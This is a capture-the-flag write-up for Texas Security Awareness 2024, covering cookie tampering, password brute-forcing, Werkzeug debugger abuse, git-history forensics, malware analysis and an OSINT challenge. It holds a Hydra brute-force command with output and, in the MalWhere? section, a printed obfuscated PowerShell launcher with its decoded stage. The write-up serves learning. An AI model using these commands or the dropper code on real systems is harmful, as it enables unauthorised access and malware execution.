

# Texas Security Awareness 2024 - WriteUp

<p align="center">
	
</p>


> Written by [V0lk3n](https://twitter.com/V0lk3n)


## Team Rank


<p align="center">
	
</p>

> We reached the 29th place against 411 teams! 

## Author Notes 

```
Thanks for this CTF! We enjoyed a lot!

To me the best challenge of the CTF was : 
[WEB] Ask, and It Shall Be Given to You

Here are few WriteUp, enjoy!

- V0lk3n
```


## Table of Contents
  
* [**Web**](#Web)
	* [Crazy Cookie](#CrazyCookie)
	* [Insecure Social Media Login](#insecure)
	* [Ask, and It Shall Be Given to You](#ask)<br/><br/>
* [**Forensics**](#Forensics)
	* [The Forked Cave](#ForkedCave)
	* [MalWhere?](#malwhere)<br/><br/>
* [**OSINT**](#OSINT)
	* [Check Out Our Campus Orgs](#Campus)<br/><br/>
* [**Credits**](#Credits)


## Web<a name="Web"></a>


## Crazy Cookie<a name="CrazyCookie"></a>

Description :

```
I can't seem to login to the account to `3.23.56.243:9002`. Can you help me get access?
```

Value : `50 pts`

Solve : `251 Solve`


## Solution

As the challenge name show, we go to the challenge URL and see a login page. From there we directly look at the cookie.

<p align="center">
	
</p>

Well, yeah crazy. We got cookie under the role `user`, change the role to `admin` and refresh the page to be logged in and reveal the flag.

<p align="center">
	
</p>


**FLAG : texsaw{cR@zy_c00Ki3}**


## Insecure Social Media Login<a name="insecure"></a>

Description : 

```
Your friend John has forgotten his password and wants to enlist the help of his tech savy friend. This is where you come in.

You're going to have to find a way to remember John's password. The site is at `3.23.56.243:9007`

John is quite a literal minded person. He literally just used `john` as his username!! He said he tried to jazz up his password, but knowing him, it's probably the most obvious choice...

This social media site looks insecure, like it probably doesn't limit the number of guesses users can make...
```

Value : `100 pts` 

Solve : `55 Solve`


## Solution 

Looking at the Web App, we can see a fake Facebook login page. Also we notice that the title of the page is `Brute Force Login`.


<p align="center">
	
</p>


So we know the username which is `john`, we need to Brute Force the password.

To solve it, i used Burp Suite, but it's possible using Hydra too (and faster).

Let's see both way!


### Using BurpSuite

First we launch BurpSuite, and open the browser on the `Proxy` tab. Then we navigate to the challenge URL, and intercept a login request.

Then we send the request to intruder.


<p align="center">
	
</p>


From there, we chose the attack type `Sniper` and we select the password and add it to the scope.


<p align="center">
	
</p>


Next we go to the `payload` tab, be sure that we target the `payload set : 1` and the `payload type : Simple list`.

We load a Wordlist to BruteForce the password, for this, as said the description : 

```
John is quite a literal minded person. He literally just used `john` as his username!! He said he tried to jazz up his password, but knowing him, it's probably the most obvious choice...
```

I opted for a small Wordlist to speed up the process, instead of the classic `rockyou.txt`, if no password found, i would opt for `rockyou.txt` otherwise, it will be time saving.

So i used the Wordlist `2023-200_most_used_passwords.txt` from SecLists, you can find it here : <a href="https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt">2023-200_most_used_passwords.txt</a>


<p align="center">
	
</p>


Finally we click on `Start Attack` and we wait. Looking at the `Length`, we noticed one request using the password `P@ssw0rd` which had a bigger Length of all others.


<p align="center">
	
</p>


I select this request, right click on it, and `Send to Repeater`. Finally, i send the request to see if i log in with success.


<p align="center">
	
</p>


**FLAG : texsaw{brut3_f0rce_p@ssword!}** 


### Using Hydra

At the beginning i was afraid to use Hydra due to the JavaScript alert popup. But as the popup is reflected inside the source code, this isn't a problem at all! 


```bash
$ hydra -l john -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 3.23.56.243 -s 9007 http-post-form "/:username=^USER^&password=^PASS^&submit=Login:Invalid login" 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-25 03:00:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-post-form://3.23.56.243:9007/:username=^USER^&password=^PASS^&submit=Login:Invalid login
[9007][http-post-form] host: 3.23.56.243   login: john   password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-25 03:00:28
```

Login and take the flag which show as Alert Popup! 


<p align="center">
	
</p>


**FLAG : texsaw{brut3_f0rce_p@ssword!}** 


## Ask, and It Shall Be Given to You<a name="ask"></a>

Description : 

`The flag is at `3.23.56.243:9008`. Unfortunately it seems like the site is down right now :( . Maybe you can ask someone for help? Don't blow up their inbox though :) and make sure you clearly tell them what you want.`

Value : `250 Pts`

Solve : `80 Solve`


## Solution

As the description said `the site is down right now`, i was thinking that the website has no front end (which is wrong, but there is nothing excepted a string). So i started using `curl`.

```bash
$ curl -i 3.23.56.243:9008                        
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.2
Date: Mon, 25 Mar 2024 02:31:45 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 52
Connection: close

Website down! please contact IT for more information
```

We notice that the server is a `Werkzeug/3.0.1 Python/3.12.2` and apparently, we need to contact IT for more information. The thing is, where is the `IT` to contact?

So i looked if there is any `robots.txt`file which reveal any other path.

```bash
$ curl -i 3.23.56.243:9008/robots.txt
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.2
Date: Mon, 25 Mar 2024 02:32:59 GMT
Content-Disposition: inline; filename=robots.txt
Content-Type: text/plain; charset=utf-8
Content-Length: 61
Last-Modified: Wed, 01 Nov 2017 17:44:28 GMT
Cache-Control: no-cache
ETag: "1509558268.0-61-737543623"
Date: Mon, 25 Mar 2024 02:32:59 GMT
Connection: close

USER AGENTS: *
DISALLOW     contactIT
DISALLOW     countdown
```

Great! Looking at `countdown` there is nothing interesting. (Sorry admin, your `pennywise.png` background can't scare me using curl xD)

```bash
$ curl -i 3.23.56.243:9008/countdown
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.2
Date: Mon, 25 Mar 2024 02:33:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 267
Connection: close

<!DOCTYPE html>
<html>
<body background="static/pennywise.png">
<head>
<style>
body {
color:red;
}
</style>
</head>
<center>
<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
<h1>27 YEARS</h1>
</body>
</html>
```

Next, we take a look at `contactIT`.

```bash
$ curl -i 3.23.56.243:9008/contactIT
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.2
Date: Mon, 25 Mar 2024 02:36:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22
Connection: close

Post:Json Request Only  
```

So we need to send `JSON` POST request on this page. For the next step i used Burp Suite for a better view and management of the requests.

I open Burp Suite, open the Browser from `Proxy` tab, navigate to the challenge URL : `http://3.23.56.243:9008/contactIT`, click on `Intercept On` and refresh the page to intercept the request.

Then i send the request to Interpreter, and modify the GET request to POST, and add a `{}` as data, to retrieve more information on how to craft my request based on errors.

I send the request and get an error.

<p align="center">
	
</p>


Based on this error, i forgot to add the `Content-Type: application/json`. I add it, and send the request again.

<p align="center">
	
</p>

This time i didnt get a normal error, i get a Crash from the server and get access to the `Werkzeug/3.0.1` debugger!

From here, we can analyse a bit of code.

First we notice that we need to send an "email" and "messege" parameter in our POST data.

> Notice that it's "messege" and not "message".

We notice also the call to `checkResponds(messege)`.

```JSON
if request.method == &#39;POST&#39;:
</pre>
<pre class="line before">
	<span class="ws">
	</span>
	content = request.get_json()
</pre>
<pre class="line before">
	<span class="ws">
	</span>
	sender = content.get(&#39;email&#39;)
</pre>
<pre class="line before">
	<span class="ws">
	</span>
	messege = content.get(&#39;messege&#39;)
</pre>
<pre class="line before">
	<span class="ws">
	</span>
	f.setSender(sender)
</pre>
<pre class="line current">
	<span class="ws">
	</span>
	f.checkResponds(messege)
	<span class="ws">
	</span>
	^^^^^^^^^^^^^^^^^^^^^^^^
</pre>
```


Apparently the POST request should send an email with the flag or a fake flag.


```JSON
	in <code class="function">
		checkResponds
	</code>
</h4>
<div class="source ">
	<pre class="line before">
		<span class="ws">
		</span>
		def setSender(self, email):
	</pre>
	<pre class="line before">
		<span class="ws">
		</span>
		self.sendto = emai
	l</pre>
	<pre class="line before">
		<span class="ws">
		</span> 
	</pre>
	<pre class="line before">
		<span class="ws">
		</span>
		#Check Responds for flag or fake
	</pre>
```


Looking at the `checkResponds` function, we can see that if `flag` is in `responds` which is in `messege`as seen before, it should send the Flag. Otherwise, it will send a fake Flag.

```JSON
	<pre class="line before">
		<span class="ws">
		</span>
		def checkResponds(self, responds):
	</pre>
	<pre class="line current">
		<span class="ws">
		</span>
		if &#34;flag&#34; in responds:
		<span class="ws">
		</span>
			^^^^^^^^^^^^^^^^^^
	</pre>
	<pre class="line after">
		<span class="ws">
		</span>
		self.sendFlag()
	</pre>
	<pre class="line after">
		<span class="ws">
		</span>
		else:
	</pre>
	<pre class="line after">
		<span class="ws">
		</span>
		self.sendFake()
	</pre>
	<pre class="line after">
		<span class="ws">
		</span>
	</pre>
	<pre class="line after">
		<span class="ws">
		</span>
		#Send Flag if requested
	</pre>
```

Now with all those informations, we can correctly craft our JSON request.

```JSON
{
"email":"your_real_email@something.com",
"messege":"flag"
}
```

We send the request, and we can see that the email has been sent.


<p align="center">
	
</p>


Take a look to your mails, and you should have an email from `texsaw2024@gmail.com` with the flag in it!


<p align="center">
	
</p>


**FLAG : texsaw{7h15_15_7h3_r34l_fl46_c0n6r47ul4710n5}**


## Forensics<a name="Forensics"></a>


## The Forked Cave<a name="ForkedCave"></a>

Description :

```
A party of adventurers ventured into a dangerous cave, but forgot to bring in their handy partyflag.txt that gives them buffs.

In the end all but one died, as she was rescued by a strange knight. The party's flag was torn to shreds outside the cave.
```

Value : `50 pts`

Solve : `124 Solve`

Attachments : <a href="assets/challenges/forensics/TheForkedCave/the-forked-cave.zip">the-forked-cave.zip</a>


## Solution 

Download the zip and extract it's content. At the first look, we see three text files.

```bash
$ ls
knight.txt  partyflag.txt  priestess.txt

$ cat *      
We'll kill them one by one...
texsaw{Th3_FL4G_I5_in_7att3r5_N0w:(}
I've seen things I shouldn't have...
```

The string `I've seen things I shouldn't have...` give the hint to look for hidden things. So i've run `ls -la` to search for hidden files/directory.

```bash
$ ls -la
total 24
drwxr-xr-x 3 v0lk3n v0lk3n 4096 Mar 25 02:43 .
drwxr-xr-x 3 v0lk3n v0lk3n 4096 Mar 25 02:43 ..
drwxr-xr-x 7 v0lk3n v0lk3n 4096 Oct 19  2018 .git
-rw-r--r-- 1 v0lk3n v0lk3n   30 Oct 19  2018 knight.txt
-rw-r--r-- 1 v0lk3n v0lk3n   37 Mar 21 00:00 partyflag.txt
-rw-r--r-- 1 v0lk3n v0lk3n   37 Oct 19  2018 priestess.txt
```

There is a `.git` folder, and at this step i know directly what to do. I need to extract the commits content, and look for the flag in these.

To do this, i used a script called `extractor.sh` from <a href="https://github.com/internetwache/GitTools">GitTools</a>.

You can download the script directly by this way : 

```bash
$ wget https://raw.githubusercontent.com/internetwache/GitTools/master/Extractor/extractor.sh
```

Once downloaded, give it execution right and run it to see how it work.

```bash
$ ./extractor.sh        
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[*] USAGE: extractor.sh GIT-DIR DEST-DIR
```

Next run it to dump the commits content.

I used `.`, because the `.git` folder is in the same location of the script.


```bash
$ mkdir dump

$ ./extractor.sh . dump/
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[+] Found commit: 9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/brawler.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/creeper.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/demon.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/goblin.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/priestess.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/skeleton.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/soldier.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b/wizard.txt
[+] Found commit: 02589c89210a9718a03992eec1a7da85e15c7c7d
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//1-02589c89210a9718a03992eec1a7da85e15c7c7d/brawler.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//1-02589c89210a9718a03992eec1a7da85e15c7c7d/partyflag.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//1-02589c89210a9718a03992eec1a7da85e15c7c7d/priestess.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//1-02589c89210a9718a03992eec1a7da85e15c7c7d/soldier.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//1-02589c89210a9718a03992eec1a7da85e15c7c7d/wizard.txt
[+] Found commit: fcc7c65ddcfa630ebe5c97cae9b014389957dbc7
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//2-fcc7c65ddcfa630ebe5c97cae9b014389957dbc7/knight.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//2-fcc7c65ddcfa630ebe5c97cae9b014389957dbc7/partyflag.txt
[+] Found file: /home/v0lk3n/Downloads/the-forked-cave/dump//2-fcc7c65ddcfa630ebe5c97cae9b014389957dbc7/priestess.txt
```

Finaly, `cat` all the files and search for the string `texsaw{*` recursively.

```bash
$ cat * | grep -r "texsaw{*"                    
cat: 0-9c6d7b5d77ba2f73fca83d026de1fe7904ce6e0b: Is a directory
cat: 1-02589c89210a9718a03992eec1a7da85e15c7c7d: Is a directory
cat: 2-fcc7c65ddcfa630ebe5c97cae9b014389957dbc7: Is a directory
2-fcc7c65ddcfa630ebe5c97cae9b014389957dbc7/partyflag.txt:texsaw{git_r3set_f_htb_qwltf}
1-02589c89210a9718a03992eec1a7da85e15c7c7d/partyflag.txt:texsaw{git_g00d_or_git_d3ath}
```

We found two flags, but only one mean really something.

**FLAG : texsaw{git_g00d_or_git_d3ath}**


## MalWhere?<a name="malwhere"></a>

Description :

```bash
You are a malware analyst and your manager has tasked you to conduct an investigation on malware that penetrated your organization’s network. Figure out what the file is doing by using your skills in static analysis (examining the malware sample without running or executing the code) or dynamic analysis (studying the behavior of the malware sample) in a closed, isolated virtual environment.

(Note: The exe file is password protected via zip. Please use the password "infected" to read the contents)
```

Value : `200 Points`

Solve : `69 Solve`

Attachment : <a href="assets/challenges/forensics/MalWhere/hwvidmigplugin.zip">hwvidmigplugin.zip</a>


## Solution

First we need to download the zip archive which contain an executable malware.

Once downloaded we extract it's content using the password `infected` credit to <a href="https://vx-underground.org/">VX-Underground :D</a> for the password.

We extracted a Malware called `hwvidmigplugin.exe`

Next we use `strings`against the executable, and we notice a PowerShell command.

```bash
$ strings hwvidmigplugin.exe 
!This program cannot be run in DOS mode.
.text
`.rsrc
@.reloc
*b(!
*B(,
Yh}
1P      os
1&      os
powershell.exe -nop -w hidden -noni -c;$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe';$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c &([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(''H4sIAC3yPWUA/21ST+saMRT8KjlsUEkDef/yp7JQWvhBoVAvPYmHtQhaRIvY0kM/vC9bTDz0sodhMjNvZofrTzOa7ffjdNvudh+W29PlvltKIAshOYbVu39IIlREfAOIi0UsLjyBktlmCR5Kp4BFFtdFAlrJ2ckTYFRVjj49gaw2MaHn3GVBjdFDeyQqCxIcNg7KzHGITaewTYA+dk6oHHrRiaQXcPDcXlFOFkCVe8CElhg9toSQajWl30AhWsigRazWw236T5uJ2EIE13xq3hK6hLDWoL7U4mtRxNo2txqYbIbXdlHUV3JfBClboOBiU0HSEsQ32aI+qFF7kKDJArnug6XWFPpm80Q6a1NlrY0wuxYENFpCx+0cVbSS+p+RlIA6RjOJmkOEXB+5/l2RO4OK3sK61tzq+TaaWq3/cT1dzGKxHqY/Y/1zO7Afh8Pl9/vNt49fPn8yzuibyjJ/zddfd/92Oh/M/N1M96MZ9usHQYmIpvgCAAA=''))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);
BSJB
v4.0.30319
#Strings
#GUID
#Blob
<Module>
hwvidmigplugin.exe
...
```


We decode the base64 using `bash`, `base64` and `gzip` as the decoded base64 is compressed.


```bash
$ base64String='H4sIAC3yPWUA/21ST+saMRT8KjlsUEkDef/yp7JQWvhBoVAvPYmHtQhaRIvY0kM/vC9bTDz0sodhMjNvZofrTzOa7ffjdNvudh+W29PlvltKIAshOYbVu39IIlREfAOIi0UsLjyBktlmCR5Kp4BFFtdFAlrJ2ckTYFRVjj49gaw2MaHn3GVBjdFDeyQqCxIcNg7KzHGITaewTYA+dk6oHHrRiaQXcPDcXlFOFkCVe8CElhg9toSQajWl30AhWsigRazWw236T5uJ2EIE13xq3hK6hLDWoL7U4mtRxNo2txqYbIbXdlHUV3JfBClboOBiU0HSEsQ32aI+qFF7kKDJArnug6XWFPpm80Q6a1NlrY0wuxYENFpCx+0cVbSS+p+RlIA6RjOJmkOEXB+5/l2RO4OK3sK61tzq+TaaWq3/cT1dzGKxHqY/Y/1zO7Afh8Pl9/vNt49fPn8yzuibyjJ/zddfd/92Oh/M/N1M96MZ9usHQYmIpvgCAAA='

$ decodedBytes=$(echo $base64String | base64 -d)

$ decompressedString=$(echo $decodedBytes | gunzip -c)

gzip: stdin: unexpected end of file

$ echo $decompressedString
$op = [char[]]@([int](503%107+41),[int](732%105-1),[int](349%229+0),[int](984%850-19),[int](341%245+1),[int](702%588+5),[int](422%146-7),[int](832%672-48),[int](981%102-15),[int](541%150+28),[int](251%102+22),[int](894%712-68),[int](201%103-15),[int](639%240-42),[int](387%110+25),[int](472%342-27),[int](173%109+5),[int](306%181+0));$ra = [char[]]@([int](734%161+2),[int](251%90+5),[int](542%110+3),[int](802%345-14),[int](943%810-19),[int](256%158-1),[int](238%130+6),[int](823%715-3),[int](942%281+2),[int](204%103+14),[int](291%100+1),[int](422%150-6),[int](439%328+9),[int](143%72+45),[int](103%57+0),[int](743%212-4),[int](642%553+8),[int](932%164-4),[int](398%143-10));$lr= $ra -join '';$ax=$op -join '';$b=$env:PUBLIC + $lr;$ax | Out-File -FilePath $b;
```


We can see two decoded functions. Using `pwsh`(the Linux PowerShell), we can read it as plain text directly.


```bash
$ pwsh            
PowerShell 7.2.6
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS> $op = [char[]]@([int](503%107+41),[int](732%105-1),[int](349%229+0),[int](984%850-19),[int](341%245+1),[int](702%588+5),[int](422%146-7),[int](832%672-48),[int](981%102-15),[int](541%150+28),[int](251%102+22),[int](894%712-68),[int](201%103-15),[int](639%240-42),[int](387%110+25),[int](472%342-27),[int](173%109+5),[int](306%181+0));

PS> Write-Host $op
t e x s a w { p 0 w E r S u R g E }
```


And we retrieve the flag! 

**FLAG : texsaw{p0wErSuRgE}**


## OSINT<a name="OSINT"></a>


## Check Out Our Campus Orgs<a name="Campus"></a>


Description :

```
There's a great student organization on UTD campus called the Computer Security Group (UTD CSG). They've helped a lot of our students get into and get better at cybersecurity through various tech talks and activities throughout the years. Maybe they can help you, too!

Oh right the flag...uhh...I can't find it right now. I think I might have lost it at a club meeting where I learned how to play CTFs. It must have been those darn shrimps and their strong arms!!! I'm gonna teach them a lesson next time I see 'em.
```

Value : `100 pts`

Solve : `17 Solve`


## Solution

So, the description and the challenge name talk about the "UTD Campus" called "The Computer Security Group (UTD CSG)".

Also the description said that "the flag is lost at the club meeting where he learned how to play CTF".

A quick Google research about "UTD CSG How to play CTF", and we found a YouTube video from September 2023.

<p align="center">
	
</p>

Once the video start, we can see "CSAW", we should be on the right track.

<p align="center">
	
</p>

Looking at the end of each challenge to reveal flag, and we see a web challenge from TEXSAW 2023. Looking the challenge reveal the flag at 13min 13sec of the video, trying to submit the flag worked.

<p align="center">
	
</p>

**FLAG : texsaw{Th3_B3s7_Cru574c34n}**


## Credits<a name="Credits"></a>


Special thanks to :

- Erik Johnsson School Of Engineering And Computer Science for organizing this event! 
- Texas Security Awareness CTF 2024 Support!

And of course... 

**Thanks to all my team mate [Godzillhack!](https://godzillhack.com)**
